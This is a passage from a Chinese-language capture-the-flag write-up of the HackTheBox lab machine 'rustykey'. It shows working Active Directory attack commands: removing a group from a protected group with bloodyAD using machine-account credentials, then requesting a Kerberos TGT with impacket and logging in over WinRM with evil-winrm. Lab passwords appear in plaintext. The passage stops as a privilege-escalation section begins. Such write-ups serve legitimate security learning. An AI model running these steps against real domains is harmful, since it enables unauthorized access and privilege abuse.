   
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0ibMufLiaYneQLoPW5iaQY8GPIib0xGXIZ2pwSJSuT7trs1XPEYesjC4WoA/640?wx_fmt=png&from=appmsg "null")  
  
  
nxc 验证账号密码是否修改成功，然而报了个错误
```
KDC_ERR_ETYPE_NOSUPP
```

  
，加密方式不支持，可能是使用了强加密类型，禁用了弱加密类型  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0lxpSTgLjy4ak0Cf6rMkDMyGaQO2Pq2AN48Ps7o9VLGWnz2fch7qPHg/640?wx_fmt=png&from=appmsg "null")  
  
  
分析 bloodhound 发现 BB 用户属于 IT 组，IT 组又属于 Protected Objects 组是受保护的对象，安装策略更加严格  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0IIQ4zqLrrU66UBKiblPr9Sia5wqtjmIq55fMMbW9H5YHautmNE1THrvg/640?wx_fmt=png&from=appmsg "null")  
  
  
最简单的方式尝试把 IT 组从受保护的对象中移除，使用 IT-COMPUTER3$ 用户尝试移除成功  

```
bloodyAD --host dc.rustykey.htb -d rustykey.htb -u 'IT-COMPUTER3$' -p 'Rusty88!' -k remove groupMember 'PROTECTED OBJECTS' 'IT'
```

  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0icOnECxFiabroRCgtt1jictCRibiaT6NBYcfcutG5WFujWlFo606UNXsDbA/640?wx_fmt=png&from=appmsg "null")  
  
  
winrm 无法直接用明文登录，需要获取 TGT 票据，使用 kerberos 认证登录  

```
# 获取tgt票据，在当前目录下生成一个票据文件
impacket-getTGT 'RUSTYKEY.HTB/BB.MORGAN:RTCC@123'

# 添加环境变量
export KRB5CCNAME=BB.MORGAN.ccache

# winrm -r 参数kerberos认证
evil-winrm -i dc.rustykey.htb -r RUSTYKEY.HTB
```

  
使用 TGT 票据登录成功，在 BB 用户的桌面发现 flag  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5HsgFkdwV2JDksTIzNoQia29xVndYNQp0R6AzL9eG8G5srZwXU9qhjRKfGublCY8SvGWBYgiceFribplBp6R34bog/640?wx_fmt=png&from=appmsg "null")  
  
# 三、权限提升  
### Runas  
  
上一步骤获得 BB 用户的目录下看到一个 PDF 文件， 从里面能看到浓烈的提权信息，包括：  
1. 1. 邮件是 IT 部门发给 support 团队  
  
1. 2. 给 support 团队成员临时添加了一些特殊权限  
  
1. 3. 测试一个压缩/解压软件的上下文菜单功能  
  